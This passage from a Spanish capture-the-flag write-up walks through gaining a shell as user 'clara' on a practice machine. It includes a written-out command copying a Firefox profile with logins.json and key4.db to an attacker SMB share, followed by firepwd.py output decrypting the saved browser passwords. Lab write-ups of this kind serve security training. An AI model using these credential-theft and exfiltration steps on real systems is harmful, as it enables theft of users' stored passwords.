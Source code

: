 ![https://imgur.com/vi2CJsZ.png](https://imgur.com/vi2CJsZ.png)

Y desde la otra máquina me conecté como cliente al servidor por el puerto `8888`.

![https://imgur.com/7ehkGMC.png](https://imgur.com/7ehkGMC.png)

Y ya tenía el puerto `9512` accesible en mí `localhost`, lo verifiqué con `netstat -nat`.

![https://imgur.com/pqukMpB.png](https://imgur.com/pqukMpB.png)

Ejecute el *exploit*.

![https://imgur.com/pgR0W4k.png](https://imgur.com/pgR0W4k.png)
 
Y gane acceso a la máquina como el usuario `clara`.

![https://imgur.com/m7hDmSQ.png](https://imgur.com/m7hDmSQ.png)

Y ya tenía acceso a la *flag* del usuario.

![evqvQWe](https://user-images.githubusercontent.com/69093629/158076491-96248ecd-0f7a-40d1-81df-424b4897d963.jpg)

Enumerando bien, encontré dos directorios de usuario de Firefox.

![https://imgur.com/3bDNgkV.png](https://imgur.com/3bDNgkV.png)

El primero no tenía nada.

![https://imgur.com/MmCXphV.png](https://imgur.com/MmCXphV.png)

El otro tenía muchos archivos y carpetas por lo que decidí descargármelos a mí máquina, abrí un servidor SMB.

![https://imgur.com/796GNli.png](https://imgur.com/796GNli.png)

Me copié el directorio `ljftf853.default-release` a mi unidad con `copy -recurse ljftf853.default-release \\10.10.16.53\files`, tenía un archivo llamativo llamado `logins.json`.

![https://imgur.com/j9YqIgA.png](https://imgur.com/j9YqIgA.png)

Tenía una *encryptedPassword* la cual podía descifrar si tenía el archivo `key4.db` o `key3.db`, lo cual tenía el primero, utilice la herramienta `firepwd.py` para ello, esta permitía descifrar contraseña protegidas por Mozilla.

![https://imgur.com/bsThYSG.png](https://imgur.com/bsThYSG.png)

```python
┌──(root💀kali)-[/home/kali]
└─$ python3 firepwd.py -d ../ljftf853.default-release                                                   
globalSalt: b'9a30912b4d63331f8493789d7b0fce68520f9265'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'cda4b75c5041c6cc7114e053f012122ce92ada163d91df9306158a06d145998a'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
```
